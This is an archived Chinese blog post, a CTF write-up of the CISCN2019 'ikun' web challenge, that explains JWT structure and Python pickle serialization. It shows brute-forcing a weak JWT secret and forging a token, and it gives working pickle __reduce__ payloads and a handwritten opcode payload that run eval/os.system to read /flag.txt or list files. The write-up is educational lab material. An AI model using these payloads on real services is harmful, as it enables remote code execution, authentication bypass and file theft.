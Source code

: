 <!--yml
category: 未分类
date: 2022-04-26 14:37:01
-->

# 一道CTF题看JWT和python反序列化_weixin_44377940的博客-CSDN博客_jwt反序列化

> 来源：[https://blog.csdn.net/weixin_44377940/article/details/106863514](https://blog.csdn.net/weixin_44377940/article/details/106863514)

### 题目

题为[CISCN2019 华北赛区 Day1 Web2]ikun

#### 题解

打开，看到这里
![在这里插入图片描述](img/befb4f0aa503bb516ab85ac90ce37c2e.png)
看来要找到lv6，写个小脚本：

```
 import requests
url = "http://9592eed0-512a-4494-bedb-332fdf504447.node3.buuoj.cn/shop?page="

for i in range(0,2000):
	r=requests.get(url+str(i))
	if 'lv6.png' in r.text:
		print (i)
		break 
```

找到后，发现要求登陆，随便注册了一个号，然后登陆，购买，发现钱不够：
抓包，发现了有趣的东西：
![在这里插入图片描述](img/afd86ea931d718a3fa4d8cfdce2eb6cc.png)
JWT我在之前的文章提到过，用base64解码看看：
![在这里插入图片描述](img/c858a739cb18aec7902e9a421ab1c8d1.png)
我们可以用[JWT-cracker](https://github.com/lmammino/jwt-cracker)对加密的secret进行爆破。
爆破得到secret为1Kun。
![在这里插入图片描述](img/3bcadaf8a54ac1096b92ffe31272c373.png)
再去[JWT伪造网站](https://jwt.io/)进行伪造：
![在这里插入图片描述](img/5b94918d4a42c41daa63854917255dd9.png)
发包：
![在这里插入图片描述](img/894573862a3ae54119e15897c8e7c9dd.png)
看到302跳转：
![在这里插入图片描述](img/84f3f0123437f0b33c93903a8c161703.png)
继续抓包，修改JWT。
进入后，发现hint：
![在这里插入图片描述](img/4d20119bb619fe2264542350aa570519.png)
下载源码，是py源码。
在Admin.py处找到一处反序列化：
![在这里插入图片描述](img/e07eb88e71d3cb6a4dbd0672fffdfac0.png)
直接上大佬的反序列化脚本：

```
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print a 
```

修改如下地方即可得到flag：
![在这里插入图片描述](img/79b2235488f034b07aaa69387a2a4dca.png)

### 知识点

#### JWT

JWT全名为json web token，由三段组成，这三段用点号连接，以这次的JWT看：`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFhYSJ9.Xjc37g2j_pU5SFHYwoPSHWJDEmRVPtfHkbFfGPcn4W0`

1.  第一段头部(header)
    这是一串base64，里面记载的是加密算法和类型声明，解码后如图：
    ![一般头部都是这个样](img/7da80ce3bbc225693e4e9b0026319e8b.png)
2.  第二段负荷(payload)
    记载的信息一般分为下面几种：标准中注册的声明、公共的声明、私有的声明。上面的解码如图：
    ![在这里插入图片描述](img/d221ca2d36c6beaeecd838257c620119.png)
3.  第三段签证（signature）
    这个部分需要base64加密后的header和base64加密后的payload使用.连接组成的字符串，然后通过header中声明的加密方式进行加盐`secret`组合加密，然后就构成了jwt的第三部分。
    这部分的secret如果偏简单的话也可以通过工具爆破出来，就比如这一题。

想要更具体的解释可以看[这篇文章](https://www.jianshu.com/p/576dbf44b2ae)。

#### Python 序列化与反序列化

python的序列化和反序列化一般通过pickle模块进行（也有json、messagepack等多种方式，但CTF常用pickle），序列化和反序列化的方法：

```
序列化
pickle.dump()或pickle.dumps()
Pickler().dump()
反序列化
pickle.load()或pickle.loads()
Unpickler(file).load() 
```

pickle可以手撸，也可以用`__reduce__`方法构造

##### 手撸pickle

我先把指令集和手写的基本模式贴在下面：

```
MARK           = b'('   # push special markobject on stack
STOP           = b'.'   # every pickle ends with STOP
POP            = b'0'   # discard topmost stack item
POP_MARK       = b'1'   # discard stack top through topmost markobject
DUP            = b'2'   # duplicate top stack item
FLOAT          = b'F'   # push float object; decimal string argument
INT            = b'I'   # push integer or bool; decimal string argument
BININT         = b'J'   # push four-byte signed int
BININT1        = b'K'   # push 1-byte unsigned int
LONG           = b'L'   # push long; decimal string argument
BININT2        = b'M'   # push 2-byte unsigned int
NONE           = b'N'   # push None
PERSID         = b'P'   # push persistent object; id is taken from string arg
BINPERSID      = b'Q'   #  "       "         "  ;  "  "   "     "  stack
REDUCE         = b'R'   # apply callable to argtuple, both on stack
STRING         = b'S'   # push string; NL-terminated string argument
BINSTRING      = b'T'   # push string; counted binary string argument
SHORT_BINSTRING= b'U'   #  "     "   ;    "      "       "      " < 256 bytes
UNICODE        = b'V'   # push Unicode string; raw-unicode-escaped'd argument
BINUNICODE     = b'X'   #   "     "       "  ; counted UTF-8 string argument
APPEND         = b'a'   # append stack top to list below it
BUILD          = b'b'   # call __setstate__ or __dict__.update()
GLOBAL         = b'c'   # push self.find_class(modname, name); 2 string args
DICT           = b'd'   # build a dict from stack items
EMPTY_DICT     = b'}'   # push empty dict
APPENDS        = b'e'   # extend list on stack by topmost stack slice
GET            = b'g'   # push item from memo on stack; index is string arg
BINGET         = b'h'   #   "    "    "    "   "   "  ;   "    " 1-byte arg
INST           = b'i'   # build & push class instance
LONG_BINGET    = b'j'   # push item from memo on stack; index is 4-byte arg
LIST           = b'l'   # build list from topmost stack items
EMPTY_LIST     = b']'   # push empty list
OBJ            = b'o'   # build & push class instance
PUT            = b'p'   # store stack top in memo; index is string arg
BINPUT         = b'q'   #   "     "    "   "   " ;   "    " 1-byte arg
LONG_BINPUT    = b'r'   #   "     "    "   "   " ;   "    " 4-byte arg
SETITEM        = b's'   # add key+value pair to dict
TUPLE          = b't'   # build tuple from topmost stack items
EMPTY_TUPLE    = b')'   # push empty tuple
SETITEMS       = b'u'   # modify dict by adding topmost key+value pairs
BINFLOAT       = b'G'   # push float; arg is 8-byte float encoding
​
TRUE           = b'I01\n'  # not an opcode; see INT docs in pickletools.py
FALSE          = b'I00\n'  # not an opcode; see INT docs in pickletools.py 
```

基本模式：

```
c<module>
<callable>
(<args>
tR 
```

按照指令集和基本模式就可以直接整出来了。
举个例子：

```
cos
system
(S'ls'
tR. 
```

我们按照指令集分解一下：

```
cos
system 
```

这部分按照指令集中的`b'c'`来看，表示引入模块和函数。由于该指令需要两个字符串（一个为模块名，一个为函数名），所以，接下来的两个字符串用`\n`当作分隔符和休止符，意义为`__import__(os).system`

```
(S'ls' 
```

`b'('`表示将一个特殊标记对象压入栈中，`b'S'`表示接下来的内容为一个字符串，在这里我们输入的字符串用`\n`当作终止符。

```
tR. 
```

这个最简单，`b't'`表示从最顶层堆栈项生成元组，`b'R'`表示在堆栈上应用可调用的**元组**，`b'.'`表示结束构造pickle。
也就是说这个指令等同于`__import__('os').system(*('ls',))`

##### __reduce__构造

这题的最后，大佬就是用了`__reduce__`进行构造。这个构造的坏处只有一个：只能执行单一的函数，很难构造复杂的操作，不过这题我们一个足以。
这题我们改造一下它的脚本会得到一个相同的，但在这里没有用的脚本(pickle.loads是会解决import 问题，对于未引入的module会自动尝试import。那么也就是说整个python标准库的代码执行、命令执行函数我们都可以使用。)：

```
import pickle,os
import urllib

class payload(object):
    def __reduce__(self):
       return (os.system, ('cat /flag.txt',))

a = pickle.dumps(payload(),protocol=0)
a = urllib.quote(a)
print (a) 
```

这里的`protocol=0`又涉及到另一个小知识了：pickling 的协议

###### pickling 的协议

pickling 的协议共有 5 种：

```
v0 版协议是原始的 “人类可读” 协议，并且向后兼容早期版本的 Python。
v1 版协议是较早的二进制格式，它也与早期版本的 Python 兼容。
v2 版协议是在 Python 2.3 中引入的。它为存储 new-style class 提供了更高效的机制。欲了解有关第 2 版协议带来的改进，请参阅 PEP 307。
v3 版协议添加于 Python 3.0。它具有对 bytes 对象的显式支持，且无法被 Python 2.x 打开。这是目前默认使用的协议，也是在要求与其他 Python 3 版本兼容时的推荐协议。
v4 版协议添加于 Python 3.4。它支持存储非常大的对象，能存储更多种类的对象，还包括一些针对数据格式的优化。有关第 4 版协议带来改进的信息，请参阅 PEP 3154。 
```

使用的协议越高，需要的python版本就得越新。

参考文章：[Python pickle 反序列化实例分析](https://www.anquanke.com/post/id/188981)
想更加了解python的魔术方法可以看这个：[python魔术方法指南](https://pyzh.readthedocs.io/en/latest/python-magic-methods-guide.html)